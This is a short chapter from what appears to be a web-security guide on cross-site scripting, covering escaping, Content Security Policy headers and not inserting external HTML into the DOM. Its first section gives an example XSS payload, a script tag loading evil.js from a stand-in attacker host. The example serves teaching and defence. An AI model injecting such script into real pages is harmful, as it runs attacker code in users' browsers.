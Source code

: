 ```yaml
---
title: 'Cross Site Scripting (XSS)'
dateUpdated: '27-02-2021'
summary: 'About cross-site scripting and security'
tags: ['XSS', 'security']
chapter: '16'
---
```

# 16. Cross Site Scripting (XSS)
1. ## Understand XSS
	Cross-site scripting (XSS) involves someone finding a way to get your user’s browser to run JavaScript code you didn’t intend your app to run. The most common way of doing this is by submitting HTML through one of the forms and counting on your app to add this HTML to the page. Since injected code is run by the browser in the context of your application, the opportunities for abuse are endless.Suppose we are writing a blog that accepts comments. When we display comments we do so by setting div.innerHTML. Someone posts a comment that says: `<script src="http//h4kk3rs.com/code/that/does/something/evil.js"></script>`Your app will add this HTML to the DOM, which will cause the browser to run the code.
2. ##  Do Not Assume You Can Make HTML Safe
	HTML is a beast. You can’t parse it with regular expressions. You can’t count on knowing all the crazy corners in all versions for all browsers. So, don’t count on running HTML through a regexp and fully sanitizing it. The only moderately safe way of handling HTML in a browser is to escape it, though even that will leave you open to XSS on some browsers.
3. ## Set Content Security Policy Headers
	Content Security Policy headers tell modern browsers to block some of the most common holes. Don’t count on it to prevent all XSS, but do it for a good measure.
4. ## Avoid Attaching External HTML Into DOM
	Since external HTML cannot be made safe, the best strategy is to avoid inserting it into DOM. Angular gives you some methods of doing this if you really insist, plus you always attach it to DOM directly. This doesn’t make it a good idea, however.
